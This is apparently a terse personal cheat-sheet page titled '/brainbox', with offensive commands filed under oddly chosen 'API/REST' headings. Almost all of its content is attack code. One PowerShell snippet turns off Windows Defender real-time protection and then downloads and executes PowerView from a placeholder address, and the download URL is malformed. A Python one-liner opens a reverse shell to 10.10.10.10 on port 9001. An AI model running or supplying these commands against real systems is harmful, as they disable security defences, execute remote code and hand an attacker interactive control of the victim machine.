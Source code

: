 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE

<details><summary> <b>API</b> </summary><blockquote>
  <details><summary>REST</summary><blockquote>
     # Patch AMSI or disable AV
    <br>
    ```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_Dev.ps1')
    ```

  </blockquote></details>
  <details><summary>SOAP</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>




```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
